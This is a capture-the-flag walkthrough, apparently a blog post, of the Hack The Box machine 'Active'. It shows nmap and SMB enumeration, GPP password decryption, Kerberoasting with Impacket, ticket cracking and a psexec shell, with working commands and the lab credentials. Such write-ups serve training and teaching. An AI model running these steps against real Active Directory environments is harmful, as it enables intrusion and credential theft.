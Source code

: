 ```yaml
---
title: "HTB Active"
categories:
  - CTF
tags:
  - Post OSCP
  - Active Directory
  - HTB
---
```


Active HTB walkthrough


| ----------- | ----------- |
| OS | Windows |
| Difficulty | Easy |
| Points | 20 | 
| Release | 28 Jul 2018|
| IP | 10.10.10.100 | 

Active is a easy windows box that nicely showcases some common windows active directory misconfigurations and attack vectors such as old GPP passwords and kerberoasting.

## Enumeration
As usual, we start by enumerating active services on the box using nmap

```
nmap -p- -sC -sV 10.10.10.100
```

``` 
-p- all ports
-sC run default scripts
-sV enumerate service versions
```

![Nmap]({{site.url}}/assets/CTF/HTB-Active/nmap.png)

Based on the enumerated ports, in particular 88 (Kerberos) and 389 (ldap) , this instantly looks like a domain controller and therefore gives some insight into what attack vectors may be present.

Based upon the open ports, the most obvious ‘quick win’ service is SMB (445).

### SMB
```
smbclient -L 10.10.10.100 -N
```
```
-L  list
-N  no password
```
![SMBClient]({{site.url}}/assets/CTF/HTB-Active/SMBClient.png)

From this we can see that the SMB configuration on this box does allow for null authentication, along with the fact that some shares are present.
From this position we could manually attempt to access each share to identify which ones we have read/write access to; or we can use SMBMap.
```
SMBMAP -H 10.10.10.100
```
```
-H Host
```
![SMBMap]({{site.url}}/assets/CTF/HTB-Active/SMBMap.png)

From this we can see the only share we have access to is ‘Replication’.

## Path to User

Using SMBGet we can pull all files from the Replication Share.
```
smbget -rR smb://10.10.10.100/Replication -a
```
```
       -a, --guest
           Work as user guest
       -r, --resume
           Automatically resume aborted files

       -R, --recursive
           Recursively download files
```
![SMBGet]({{site.url}}/assets/CTF/HTB-Active/SMBGet.png)

Instantly the file that jumps out is ‘Preferences/Groups/Groups.xml’ as this appears to be a group policy preference (GPP) file.

![GPPFile]({{site.url}}/assets/CTF/HTB-Active/GPPFile.png)

Prior to a patch being issued in 2014, Whenever a new Group Policy Preference (GPP) is created, an xml file created in the SYSVOL share with the relevent config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as cpassword. But then, in their infinite wisdom, Microsoft published the key on MSDN!
While the 2014 patch prevents passwords being entered into GPP, this does not remediate any legacy files that were already created, meaning that even today this attack vector is still found in organisation environments.


In order to decrypt the password, we just need to provide the cname string to the inbuild kali too gpp-decrypt.


![GPPdecrypt]({{site.url}}/assets/CTF/HTB-Active/GPPdecrypt.png)


And we now have a set of user credentials to play with:
```active.htb\SVC_TGS: GPPstillStandingStrong2k18```

Using these and SMBMap we can see if these provide us any more access via SMB.



![SMBMap2]({{site.url}}/assets/CTF/HTB-Active/SMBMap2.png)


A quick bit of enumeration only identifies the user.txt file as being accessible/relevant in this directory and no clues on how to escalate.


![UserFlag]({{site.url}}/assets/CTF/HTB-Active/userflag.png)


## Path to Root

As this box is a Domain Controller running the Kerberos service (88), we can use our newly obtained credentials to attempt to obtain hashed credentials via ‘Kerberoasting’. I highly recommend you do your own research into what Kerberoasting is but essentially:

*Kerberoasting is an attack path where any valid domain account requests a Kerberos service ticket for any service, the resulting ticket is then taken offline in an attempt to crack the associated NT hash of the user account used to encrypt the ticket.*

There are multiple different methods to initiate a kerberoasting attack, however my personal preference is Impacket’s GetUserSPNs.py


```
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18
```
```
positional arguments:
  target              domain/username[:password]

-request              Requests TGS for users and output them in JtR/hashcat
                        format (default False)

-dc-ip 		  IP Address of the domain controller.
```

![Kerberos]({{site.url}}/assets/CTF/HTB-Active/kerberos.png)


We can now use john or hashcat to attempt to crack the obtained ticket has for the Administrator user.


![john]({{site.url}}/assets/CTF/HTB-Active/john.png)


Now we have the administrator’s password we could just navigate to the relevant user share to grab the root.txt flag. However I prefer to actually obtain a shell using psexec.py.

```
psexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
```
![rootflag]({{site.url}}/assets/CTF/HTB-Active/rootflag.png)

